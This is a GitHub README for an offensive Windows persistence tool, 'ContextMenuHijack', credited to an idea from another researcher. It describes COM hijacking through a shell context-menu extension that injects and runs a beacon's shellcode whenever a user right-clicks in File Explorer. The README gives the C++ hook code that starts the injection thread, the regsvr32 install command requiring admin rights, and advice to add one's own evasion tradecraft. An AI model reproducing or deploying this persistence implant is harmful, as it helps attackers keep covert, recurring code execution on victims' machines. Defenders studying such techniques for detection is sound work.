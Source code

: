 # ContextMenuHijack

This original idea that inspired me is from [@NinjaParanoid](https://twitter.com/NinjaParanoid) :

[![Video](https://user-images.githubusercontent.com/75935486/212143342-bda8da88-b076-488f-a3c2-126a4875c2c1.png)](https://www.youtube.com/watch?v=SwdmijpSjjA&ab_channel=ChetanNayak)


[ContextMenuHijack](https://github.com/RistBS/ContextMenuHijack) is a simple persistence technique that use COM hijacking based on human behavior, when you right click on a file/folder in the File Explorer to open the Context Menu, it executes at the same time the beacon we specified.
```c
IFACEMETHODIMP FileContextMenuExt::Initialize( LPCITEMIDLIST pidlFolder, LPDATAOBJECT pDataObj, HKEY hKeyProgID ) {
    DWORD tid = NULL;
    CreateThread(NULL, 1024 * 1024, (LPTHREAD_START_ROUTINE)InjectShc, NULL, 0, &tid);

    if (NULL == pDataObj) {
	if (pidlFolder != NULL) {
	}
        return S_OK;
    }
    return S_OK;
}
```

Usage : This persistence trick needs admin privs.
```powershell
regsvr32 "C:\path\to\ContextMenuHijack.dll"
```
> if you want to uninstall it just use `/u` flag

- this technique can be easily detected from the thread stack of `explorer.exe`, it is up to you to use your own evasion tradecraft 
![image](https://user-images.githubusercontent.com/75935486/212399032-3249579d-fff5-42e7-b18b-b3e7d13efaad.png)


# Credits

- https://github.com/rikka0w0/ExplorerContextMenuTweaker
- https://learn.microsoft.com/en-us/windows/win32/shell/how-to-implement-the-icontextmenu-interface?redirectedfrom=MSDN
- https://www.codeproject.com/Articles/441/The-Complete-Idiot-s-Guide-to-Writing-Shell-Extens
